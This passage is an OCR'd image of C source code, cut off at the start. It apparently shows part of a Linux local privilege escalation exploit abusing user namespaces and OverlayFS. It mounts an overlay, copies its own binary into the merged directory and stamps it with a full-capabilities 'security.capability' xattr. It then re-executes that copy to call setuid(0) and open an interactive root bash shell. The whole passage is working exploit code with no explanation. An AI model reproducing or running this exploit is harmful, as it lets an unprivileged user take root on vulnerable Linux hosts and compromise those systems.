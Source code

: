 ```c
    uid_t uid = getuid();
    gid_t gid = getgid();

    if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
        err(1, "unshare");

    xwritefile("/proc/self/setgroups", "deny");

    sprintf(buf, "0 %d 1", uid);
    xwritefile("/proc/self/uid_map", buf);

    sprintf(buf, "0 %d 1", gid);
    xwritefile("/proc/self/gid_map", buf);

    sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
    if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
        err(1, "mount %s", DIR_MERGE);

    // all+ep
    char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

    xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
    if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
        err(1, "setxattr %s", BIN_MERGE);

    return 0;
}

int main(int argc, char *argv[])
{
    if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
        setuid(0);
        setgid(0);
        execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
        err(1, "execl /bin/bash");
    }

    pid_t child = fork();
    if (child == -1)
        err(1, "fork");

    if (child == 0) {
        _exit(exploit());
    } else {
        waitpid(child, NULL, 0);
    }

    execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
    err(1, "execl %s", BIN_UPPER);
}
```
